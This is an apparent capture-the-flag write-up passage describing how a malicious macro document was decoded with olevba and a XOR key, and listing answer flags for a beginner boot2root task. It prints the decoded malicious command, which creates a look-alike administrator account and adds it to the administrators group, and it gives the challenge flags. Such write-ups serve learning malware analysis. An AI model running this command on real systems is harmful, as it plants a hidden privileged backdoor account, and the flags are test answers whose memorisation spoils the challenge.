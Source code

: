 #### 2. **Decoded & analyzed file**

```bash
base64 -d > malware.docm
olevba malware.docm
```

✅ Macro revealed XOR encoded byte array.

---

#### 3. **Parsed decoding logic**

* Macro used `"l33t"` as XOR key
* Allocated memory, decoded bytes, and executed shellcode.

---

#### 4. **Manual decoding**

* Wrote Python script to XOR each byte with "l33t".
* Decoded payload revealed command:

```
net user administrrator VEhNe0V2MWxfTUBDcjB9 /add /Y & net localgroup administrators administrrator /add
```

✅ Base64 decoded password:

```
THM{Ev1l_M@Cr0}
```

---

### 💡 **Lessons Learned**

* OLEVBA + manual emulation decodes nearly all macro-based flags.
* Always decode suspicious byte arrays with their revealed XOR keys.

---

## 📝 **Task 15 – Chess Industry** {#task-15--chess-industry}

### 🗂️ **Category:** Boot2Root

### 🎯 **Difficulty:** Beginner

### 🏷️ **Flags:**

* User: THM{bishop\_to\_c4\_check}
* Root: THM{check\_check\_check\_mate}

---
